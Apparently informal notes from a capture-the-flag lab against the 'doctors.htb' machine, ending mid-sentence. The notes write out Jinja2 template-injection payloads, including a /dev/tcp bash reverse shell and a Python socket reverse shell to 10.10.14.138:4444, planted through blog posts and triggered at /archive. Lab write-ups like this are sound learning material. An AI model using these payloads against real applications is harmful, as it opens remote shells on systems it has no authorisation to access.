 
Foun 3 ports 80,22,8089

by adding the following to `10.10.10.209 doctors.htb` we were able to find a new login page on doctors.htb

Went to doctors.htb and registered with an email with .htb emailid.

logged in with that email and were able to create posts


Directory fuzzing hasnt given us anything useful yet: how ever i can see an archive directory which gives a blank response but on viewing source we see an xml file


thomas got the revershell using putting the payload at the post and going to `/archive`, this doesnot work for me. On putting the following `{{44}}[[55]]
{{7*'7'}} would result in 7777777
{{config.items()}}` from payload all the things we get a response on the same `/archive` as mentioned for `7777777`

Like an idiot used the config payload from payload all the things SSTI `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection`
`{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}` and got an http 500 error, will try the direct bash one and see if it works.

Trying the following payload to see if it , works, its mentioned specifically for reverse shell
`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`

but will need some modification after which it is
`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.138\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`

PLease not that the pay load has 2 linux commands, first one is to establish the connection and the next one is for the payload that is sent back, ideally we can also use thomas command and send commands directly via popen , will investigate further on tha.

Once 

